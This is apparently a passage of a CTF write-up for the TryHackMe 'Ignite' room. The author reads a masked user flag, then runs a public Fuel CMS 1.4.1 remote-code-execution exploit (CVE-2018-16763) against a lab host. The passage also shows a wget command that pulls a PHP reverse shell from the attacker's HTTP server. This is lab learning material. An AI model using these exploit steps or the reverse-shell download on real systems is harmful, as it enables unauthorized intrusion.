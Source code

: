 ## user flag

```bash
cmd:cat /home/www-data/flag.txt
system6470e394cbf6dab6a91682cc8585XXXX
```

`6470e394cbf6dab6a91682cc8585XXXX`

## better RCE

```bash
joshua@kaligra:~/Documents/thm/ignite$ searchsploit -m php/webapps/50477.py
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/joshua/Documents/thm/ignite/50477.py
```

```bash
joshua@kaligra:~/Documents/thm/ignite$ python3 50477.py -u http://10.10.14.144
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)


Enter Command $

```

Not so good.

Let's try with `php-reverse-shell.php` from pentestmonkey.net

```bash
joshua@kaligra:~/Documents/thm/ignite$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
Enter Command $wget http://10.8.100.14:8000/rev.php
system

Enter Command $ls
systemREADME.md
assets
composer.json
contributing.md
fuel
index.php
robots.txt

```
